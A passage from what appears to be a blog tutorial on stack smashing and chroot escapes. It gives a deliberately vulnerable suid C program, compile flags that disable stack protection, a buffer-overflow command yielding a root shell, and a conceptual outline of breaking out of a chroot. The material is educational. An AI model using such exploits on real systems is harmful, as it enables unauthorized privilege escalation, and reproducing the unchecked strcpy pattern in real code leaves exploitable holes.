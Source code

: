 <h2 id="exploitation">Exploitation</h2>

<p>Again, I&rsquo;m not going to go into any detail here because I did at great length in <code>On Stack Smashing</code>, parts <a href="/2019/04/09/on-stack-smashing-part-one/">one</a> and <a href="/2019/04/10/on-stack-smashing-part-two/">two</a>.  Here is the program that we&rsquo;ll exploit:</p>

<p><code>cat_pictures.c</code></p>

<pre><code>#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

void foo(char *s) {
    char buf[10];
    strcpy(buf, s); 
    printf(&quot;%s\n&quot;, buf);
}

int main(int argc, char **argv) {
    foo(argv[1]);
    return 0;
}
</code></pre>

<p>Compile and set as <code>suid</code>:</p>

<pre><code># gcc -o cat_pictures -ggdb3 -z execstack cat_pictures.c
# chmod 4550 cat_pictures
</code></pre>

<p>Now, the exploitation itself:</p>

<pre><code>$ ./cat_pictures $(perl -e 'print &quot;A&quot;x22 . &quot;\xc7\xdd\xff\xff&quot;')

# whoami
root
# id
uid=0(root) gid=1001(test) groups=1001(test)
#
</code></pre>

<p>We have a root shell after injecting the shellcode.  We&rsquo;re now ready to break out of the <code>chroot</code>.</p>

<h2 id="escaping-a-chroot">Escaping a <code>chroot</code></h2>

<p>Since we&rsquo;re <code>root</code> after successfully executing the exploit in the last section, we&rsquo;re now free to code another exploit to break out of the <code>chroot</code>.</p>

<p>Conceptually, the idea is to create another directory that we will <code>chroot</code> from our current working directory.  Once that is done, we&rsquo;ll use the <code>chdir</code> system call (syscall) to move up to the root of the filesystem, at which point we&rsquo;ll create a root shell.  <a href="https://www.youtube.com/watch?v=U-xetxYwyak">Sweet freedom</a>!</p>


[On Running a Tor Onion Service in a Chroot]: /2018/04/06/on-running-a-tor-onion-service-in-a-chroot/
[On Stack Smashing, Part Two]: /2019/04/10/on-stack-smashing-part-two/
[chroot]: https://en.wikipedia.org/wiki/Chroot